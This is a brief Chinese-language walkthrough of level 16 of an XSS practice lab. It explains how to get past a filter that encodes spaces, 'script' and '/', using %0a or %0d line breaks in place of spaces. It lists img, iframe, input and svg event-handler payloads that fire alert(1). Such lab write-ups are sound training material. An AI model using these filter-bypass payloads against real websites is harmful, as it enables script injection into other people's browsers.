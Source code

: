 ## level16

这个题将空格、`script`以及`/`给编码为html实体的空格  [html标签](https://www.runoob.com/tags/html-reference.html)

看看还有哪些可以用`img` `iframe` `input` `svg`

用`%0a`或者`%0d`绕过空格

payload:(需要将空格换成`%0a`或者`%0d`)

```html
<img src=ssss.ss onerror=alert(1)>
<iframe src=11 onload=alert(1)>
<input value="111" type="button" onclick=alert(1)>
<svg onload=alert(1)>
```

